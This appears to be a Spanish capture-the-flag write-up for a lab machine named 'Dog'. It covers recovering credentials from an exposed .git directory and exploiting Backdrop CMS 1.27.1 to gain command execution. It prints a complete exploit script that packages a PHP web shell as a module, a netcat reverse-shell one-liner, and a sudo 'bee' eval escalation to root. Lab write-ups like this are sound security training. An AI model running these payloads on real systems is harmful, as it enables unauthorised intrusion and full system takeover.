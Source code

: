 ```yaml
---
title: "Dog"
date: "2025-03-08T00:04:43-05:00"
type: "maquinas"
draft: true
tags: ["backdrop", "bee", "linux", "sudoers", "git-dumper"]
---
```


# Dog

Maquina sencilla en la que por medio de un git encontramos credenciales para poder luego hacer uso de un exploit con el cual obtendremos ejecucion de comandos para luego reusar las credenciales con los usuarios que podremos listar, para el root fue explotacion de un binario muy sencillo.
Dificultad: Facil

# Enumeración

```jsx
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP -oG allports
sudo nmap -sCV -p22,80 "$ip_target" -A -oN target
```
<a href="https://imgur.com/tzfb8Ub"><img src="https://i.imgur.com/tzfb8Ub.png" title="source: imgur.com" /></a>

Encontramos un git por lo que vamos a usar git-dumper y tratar de restaurar el git, primero vamos a instalar la herramienta.

```jsx
pipx install git-dumper
git-dumper http://IP/.git git
cd git
git reset --hard
cat settings.php
```

Y ahi tendremos una contraseña:

<a href="https://imgur.com/a38Rciw"><img src="https://i.imgur.com/a38Rciw.png" title="source: imgur.com" /></a>

Para hallar usuarios validos lo vamos a hacer tambien en el git usando grep así:

```jsx
grep -r -i -l '@dog.htb' . 2>/dev/null
```

<a href="https://imgur.com/wXcZRsI"><img src="https://i.imgur.com/wXcZRsI.png" title="source: imgur.com" /></a>

# Puerto 80

Ahora con ese usuario y contraseña podemos ingresar si miramos por la pagina encontraremos la verison en el link http://IP/?q=admin/reports/updates

<a href="https://imgur.com/C3nuz53"><img src="https://i.imgur.com/C3nuz53.png" title="source: imgur.com" /></a>

Y si buscamos encontraremos una vulnerabilidad de esta version [Exploit](https://www.exploit-db.com/exploits/52021).

# Exploit

Vamos a modificar el script para que en vez de .zip nos lo guarde en el formato haceptado .tar.gz

```jsx
import os
import time
import tarfile

def create_files():
    info_content = """
    type = module
    name = Block
    description = Controls the visual building blocks a page is constructed
    with. Blocks are boxes of content rendered into an area, or region, of a<a href="https://imgur.com/4H7qVEl"><img src="https://i.imgur.com/4H7qVEl.png" title="source: imgur.com" /></a>
    web page.
    package = Layouts
    tags[] = Blocks
    tags[] = Site Architecture
    version = BACKDROP_VERSION
    backdrop = 1.x

    configure = admin/structure/block

    ; Added by Backdrop CMS packaging script on 2024-03-07
    project = backdrop
    version = 1.27.1
    timestamp = 1709862662
    """
    shell_info_path = "shell/shell.info"
    os.makedirs(os.path.dirname(shell_info_path), exist_ok=True)  # Crea el directorio
    with open(shell_info_path, "w") as file:
        file.write(info_content)

    shell_content = """
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
    if(isset($_GET['cmd']))
    {
    system($_GET['cmd']);
    }
    ?>
    </pre>
    </body>
    </html>
    """
    shell_php_path = "shell/shell.php"
    with open(shell_php_path, "w") as file:
        file.write(shell_content)
    return shell_info_path, shell_php_path

def create_tar(info_path, php_path):
    tar_filename = "shell.tar.gz"
    with tarfile.open(tar_filename, 'w:gz') as tarf:
        tarf.add(info_path, arcname='shell/shell.info')
        tarf.add(php_path, arcname='shell/shell.php')
    return tar_filename

def main(url):
    print("Backdrop CMS 1.27.1 - Remote Command Execution Exploit")
    time.sleep(3)

    print("Evil module generating...")
    time.sleep(2)

    info_path, php_path = create_files()
    tar_filename = create_tar(info_path, php_path)

    print("Evil module generated!", tar_filename)
    time.sleep(2)

    print("Go to " + url + "/admin/modules/install and upload the " +
          tar_filename + " for Manual Installation.")
    time.sleep(2)

    print("Your shell address:", url + "/modules/shell/shell.php")

if __name__ == "__main__":
    import sys
    if len(sys.argv) < 2:
        print("Usage: python script.py [url]")
    else:
        main(sys.argv[1])
```

<a href="https://imgur.com/VJTtoEe"><img src="https://i.imgur.com/VJTtoEe.png" title="source: imgur.com" /></a>

Vamos a usar la siguiente revshell:

```bash
#Nuestra maquina
nc -lvnp 4444

#Pagina
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP 4444 >/tmp/f
```

# Usuario

Si listamos usuarios en el home veremos dos usuarios:

<a href="https://imgur.com/XK8ClEV"><img src="https://i.imgur.com/XK8ClEV.png" title="source: imgur.com" /></a>

Si reusamos la contraseña que teniamos con johncusak tendremos acceso a la flag de usuario.

# Root

Si listamos permisos sudoers tendremos el bin  `bee` :

<a href="https://imgur.com/zImnC79"><img src="https://i.imgur.com/zImnC79.png" title="source: imgur.com" /></a>

Si ejecutamos el binario veremos lo que podemos hacer entre esas hay una muy interesante en la cual podemos ejecutar codigo php:

<a href="https://imgur.com/4H7qVEl"><img src="https://i.imgur.com/4H7qVEl.png" title="source: imgur.com" /></a>

Por lo que vamos a tratar de darnos una bash como root:

```bash
sudo bee eval "shell_exec('/bin/bash');”
```

Y listo root facilito e interesante solo tocaba leer.
